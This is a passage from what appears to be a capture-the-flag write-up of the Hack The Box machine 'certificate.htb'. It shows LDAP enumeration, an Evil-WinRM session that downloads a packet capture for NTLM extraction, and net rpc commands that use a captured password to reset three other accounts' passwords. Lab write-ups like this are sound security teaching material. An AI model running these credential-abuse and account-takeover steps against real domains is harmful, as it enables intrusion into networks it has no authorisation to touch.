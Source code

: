     INFO: Done in 00M 13S



```python
!ldapsearch -x -H ldap://certificate.htb -D cn=sara.b,dc=certificate,dc=htb -w $initialpassword -b $domain_spn '(objectClass=person)'
```

    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C09050F, comment: AcceptSecurityContext error, data 52e, v4563


With the basic enumeration out of the way and an updated bloodhound search, lets log in and start sleuthing.

We immediately land on a pcap file. These are super useful as they'll have NTLM negotiations for windows services sometimes, and we can extract that with various tools. In this case it only shows us that lion.sk is a user of interest.
```sh
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> dir -fo


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap


*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> type Description
Cannot find path 'C:\Users\Sara.B\Documents\WS-01\Description' because it does not exist.
At line:1 char:1
+ type Description
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\Sara.B...-01\Description:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> download WS-01_PktMon.pcap
                                        
Info: Downloading C:\Users\Sara.B\Documents\WS-01\WS-01_PktMon.pcap to WS-01_PktMon.pcap
                                        
Info: Download successful!

We have password reset access over all these users, so let's help ourselves to some more accounts.


```python
!net rpc password "lion.sk" "Password1234!" -U "certificate"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc password "ryan.k" "Password1234!" -U "certificate"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc password "akeder.kh" "Password1234!" -U "certificate"/"sara.b"%"Blink182" -S "certificate.htb"
```
